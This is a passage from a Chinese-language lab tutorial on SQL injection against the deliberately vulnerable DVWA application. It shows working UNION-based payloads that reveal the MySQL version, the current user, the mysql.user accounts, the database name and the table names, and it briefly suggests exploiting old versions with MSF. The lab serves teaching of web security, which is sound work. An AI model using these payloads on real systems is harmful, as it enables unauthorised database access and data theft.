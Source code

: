 ```
' or 1=1 union select null,version() #
```

我们可以看到这样的结果;

![show-version](https://doc.shiyanlou.com/document-uid113508labid2411timestamp1482307196673.png/wm)

从结果中我们看到了在最后一条中多了一条版本信息，这是为什么呢？我们将我们的语句套入我们猜测的查询语句中：

```
SELECT First_name, surname FROM 某张表 WHERE id = '' or 1=1 union select null,version() #'
```

前面部分与上次的一样，单引号的匹配，`or 1=1` 的多条件查询，使用了 union 关键字，union 可以把来自多个 select 语句的结果组合在一起，并且当有重复的结果时不会显示，自动剔除掉。

系统自带了一个查询版本的函数 version()，通过它我们便能得知 MySQL 的版本，因为第一个 select 语句中查询了两个表项，所以这个语句需要相对应，所以在 version() 之前添加了一个 null，这样我们就获取到了 MySQL 的版本。

获取到版本信息可以让我们根据版本的不同而调整 SQL 注入的语句，并且我们还可以利用老版本的漏洞使用 MSF 等工具攻击。

如法炮制我们还可以查询当前执行语句的 MySQL 登陆用户：

```
SELECT First_name, surname FROM 某张表 WHERE id = '' or 1=1 union select null,user() #'
```
![show-user](https://doc.shiyanlou.com/document-uid113508labid2411timestamp1482307211857.png/wm)

我们使用的 root 用户登陆，root 账户拥有所有权限。

同样我们我还可看到数据库中有哪些用户：

```
' or 1=1 union select null,User from mysql.user #
```

![show-all-mysql-user](https://doc.shiyanlou.com/document-uid113508labid2411timestamp1482307222114.png/wm)

类似的用户信息获取扩展我们不再意义列举了。

我们还可以查看到当前使用的数据库名称：

```
' or 1=1 union select null,database() #
```

![show-database](https://doc.shiyanlou.com/document-uid113508labid2411timestamp1482307232424.png/wm)

我们还可以查看所有的表的名称：

```
' or 1=1 union select null, table_name from information_schema.tables #
```

![show-schema](https://doc.shiyanlou.com/document-uid113508labid2411timestamp1482307241963.png/wm)

根据上一步我们知道了我们数据库的名称，我们可以只查看 dvwa 数据库的表有哪些：

```
' or 1=1 union select null, table_name from information_schema.tables where table_schema='dvwa' #
```
